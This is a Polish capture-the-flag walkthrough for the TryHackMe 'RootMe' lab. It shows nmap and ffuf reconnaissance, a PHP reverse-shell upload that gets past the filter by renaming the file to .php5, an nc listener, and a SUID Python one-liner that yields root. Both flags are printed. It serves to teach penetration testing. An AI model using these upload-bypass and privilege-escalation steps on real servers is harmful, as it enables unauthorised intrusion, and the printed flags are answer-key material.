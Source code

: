 # RootMe
IP=10.10.227.119

## Rekonesans
Przeprowadzamy wstępny skan za pomocą narzędzia nmap:

```
sudo nmap -sV -sC 10.10.227.119  
```

Otrzymujemy następujące wyniki:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-07-09 08:26 EDT
Nmap scan report for 10.10.227.119
Host is up (0.12s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.62 seconds
```

Wykryte zostały dwa porty: 22 (SSH) i 80 (HTTP). Wersja Apache to 2.4.29. Na porcie 22 działa usługa SSH.

## Skanowanie

### Port 80
Rozpoczynamy od sprawdzenia portu 80:

![Port80](img/Port80.JPG)

Jest to strona startowa. Przechodzimy do enumeracji katalogów za pomocą narzędzia ffuf:

```
ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.227.119/FUZZ -c 
```

![FFUF](img/FFUF.JPG)

Znajdujemy dwie ciekawe lokalizacje: /panel i /uploads:

![Panel](img/Panel.JPG)

![Uploads](img/Uploads.JPG)

## Eksploitacja

Pobieramy [skrypt](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) reverse-shell'a i próbujemy go wgrać:

![PHP](img/PHP.JPG)

Okazuje się, że pliki z rozszerzeniem .php są zakazane. Spróbujmy obejść to zabezpieczenie stosując [inne](https://book.hacktricks.xyz/pentesting-web/file-upload) rozszerzenie:

![Bypass](img/Bypass.JPG)

Zmieniamy rozszerzenie skryptu na np. .php5 i ponownie wgrywamy:

![Success](img/Success.JPG)

Widzimy, że skrypt został wgrany pomyślnie. Po ustawieniu nasłuchiwania przechodzimy do podstrony /uploads i klikamy na wgrany skrypt:

```
nc -lvnp 4444
```

![Nc](img/Nc.JPG)

Otrzymujemy dostęp do serwera przez reverse-shell'a. W pliku /var/www/user.txt znajdujemy pierwszą flagę:

![Flag1](img/Flag1.JPG)

```
THM{y0u_g0t_a_sh3ll}
```

## Zwiększenie poziomu uprawnień

Sprawdzamy, które programy mają ustawione uprawnienie SUID:

```
find / -perm -4000 2>/dev/null
```

![Python](img/Python.JPG)

Program python jest nietypowy. Spróbujmy to wykorzystać za pomocą [gtfobins](https://gtfobins.github.io/gtfobins/python/):

```
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

![Root](img/Root.JPG)

 W pliku /root/root.txt znajdujemy drugą flagę:

![Flag2](img/Flag2.JPG)

```
THM{pr1v1l3g3_3sc4l4t10n}
```

Do zobaczenia na kolejnych CTF-ach!
